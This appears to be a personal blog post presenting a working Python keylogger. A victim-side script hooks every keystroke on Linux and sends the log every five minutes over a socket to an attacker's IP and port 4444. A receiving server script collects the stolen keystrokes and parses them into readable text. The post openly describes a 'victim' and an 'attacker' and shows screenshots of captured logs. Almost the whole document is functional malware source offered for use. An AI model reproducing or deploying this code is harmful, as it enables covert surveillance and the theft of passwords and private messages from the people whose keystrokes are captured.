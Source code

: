 ```yaml
---
title: "Python Keylogger With Sockets"
date: 2023-04-14T10:46:32-05:00
draft: false
---
```

I created a keylogger in python and setup sockets to allow the victim machine to send me the keylog contents.
The keylog content is also parsed to be presented neatly.

They keylog script captures all keystrokes and after every 5 minutes sends that file to the attacker via socket.
keylogging script ran on victim's computer:


    #Python keylogger for linux and socket connection to send keylog
    #4/14/2023
    import socket
    import os
    import pyxhook
    import time

    def send_file():
        BUFFER_SIZE = 4096 # send 4096 bytes each time step

        host = "192.168.24.128" #ENTER YOUR RECEIVEING IP HERE
        port = 4444 #ENTER YOUR RECEIVING PORT HERE

        filename = "file.log"

        
        #create sender socket
        s = socket.socket()
        print(f"[+] Connecting to {host}:{port}")
        s.connect((host,port))
        print("[+] Connected.")
        with open(filename, "rb") as f:
            while True:
                #read the bytes from the file
                bytes_read = f.read(BUFFER_SIZE)
                if not bytes_read:
                    #file transmit is done
                    break

                #send all to assure transmission
                s.sendall(bytes_read)
                #update progress bar
                ###progress.update(len(bytes_read))
        print("[+] File sent.")

        #close socket
        s.close()


    PATH = "~/Desktop/keyloggerproj/file.log" #ENTER PATH TO STORE KEYLOG
    #Tell keylogger where to store file:
    log_file = os.environ.get('pylogger_file', os.path.expanduser(PATH))

    #allow a cancel key for example purposes
    cancel_key = ord(os.environ.get('pylogger_cancel','`')[0])

    #allow clearing the log file on start, if pylogger_clean is defined
    if os.environ.get('pylogger_clean', None) is not None:
        try:
            os.remove(log_file)
        except EnvironmentError:
            #file does not exist or incorrect permissions 
            pass

    #create key event and saving it into log file
    def OnKeyPress(event):
        with open(log_file, 'a') as f:
            f.write('{}\n'.format(event.Key))

    #create a hook manager object
    new_hook = pyxhook.HookManager()
    new_hook.KeyDown = OnKeyPress
    #set the hook
    new_hook.HookKeyboard()
    try:
        new_hook.start() #start the hook
    except KeyboardInterrupt:
        #use used cancel key
        pass
    except Exception as ex:
        #Write exceptions to the log file
        msg = 'Error while catching events:\n {}'.format(ex)
        pyxhook.print_err(msg)
        with open(log_file, 'a') as f:
            f.write('\n{}'.format(msg))

    while True:
        time.sleep(300)
        send_file()

The receiving script opens a socket and allows connection, any files sent are parsed and saved locally as file.log

The receiving script:

    #Socket that accepts and parses keylog file
    #4/14/23

    import socket
    import os

    def parse_string(file_content):
        newString = ""
        for word in file_content.split():
            newString += word
            if "BackSpace" in word:
                newString = newString[:-10]
            if "P_Enter" in word:
                newString = newString[:-7]
                newString += ' '
            if "space" in word:
                newString = newString[:-5]
                newString += ' '
            if "period" in word:
                newString = newString[:-6]
                newString += '.'
            if "Return" in word:
                newString = newString[:-6]
                newString += '\n'
            if "Shift_L" in word:
                newString = newString[:-7]

            if "exclam" in word:
                newString = newString[:-6]
                newString += '!'
            if "at" in word:
                newString = newString[:-2]
                newString += '@'
            if "numbersign" in word:
                newString = newString[:-10]
                newString += '#'
            if "dollar" in word:
                newString = newString[:-6]
                newString += '$'
            if "percent" in word:
                newString = newString[:-7]
                newString += '%'
            if "asciicircum" in word:
                newString = newString[:-11]
                newString += '^'
            if "ampersand" in word:
                newString = newString[:-9]
                newString += '&'
            if "asterisk" in word:
                newString = newString[:-8]
                newString += '*'
            if "parenleft" in word:
                newString = newString[:-9]
                newString += '('
            if "parenright" in word:
                newString = newString[:-10]
                newString += ')'
        return newString

    SERVER_HOST = "0.0.0.0"
    SERVER_PORT = 4444

    #recieve 4096 bytes each time
    BUFFER_SIZE = 4096

    s = socket.socket()
    s.bind((SERVER_HOST, SERVER_PORT))

    s.listen(5)
    print(f"[*] Listening as {SERVER_HOST}:{SERVER_PORT}")
    while(1):

        client_socket, address = s.accept()

        print(f"[+] {address} is connected.")

        #recieve file info
        #recieve using client socket, not server socket
        #recieved = client_socket.recv(BUFFER_SIZE).decode()
        #filename = recieved
        #remove abs path
        #filename = os.path.basename(filename)

        filename = "file.log"

        #recieve file from the socket

        with open(filename, "w") as f:
            while True:
                #read 1024 bytes fromt he socket
                bytes_read = client_socket.recv(BUFFER_SIZE)
                #bytes_read.replace('\n', ' ')
                string_read = bytes_read.decode('utf-8')
                
                #for line in string_read.splitlines():
                    #print(line)
                    #if line == 'space':
                        #print("SPACE IS TRUE")

                string_read = string_read.replace('\n', ' ')
                fstring_read = string_read.replace('Space', '')
                #string_read = string_read.replace('P_Enter', '')
                #string_read = string_read.replace('space', '')


                print(f"{string_read}")
                if not bytes_read:
                    #nothing recieved file transmiting is done
                    break
                #write to file the bytes we recieve
                file_content = parse_string(string_read)
                f.write(file_content)


    client_socket.close()

Victim running keylog.py and after 5 min the log is sent:

![Victim running keylog.py](/keylog1.png)

Attacker running receive.py and receiving keylog contents after 5 min:

![Attacker running receive.py](/keylog2.png)

Seeing that the log was successfully received:
![received log](/keylog3.png)

Looking at the contents of the example after 5 min of use:
![example log](/keylog4.png)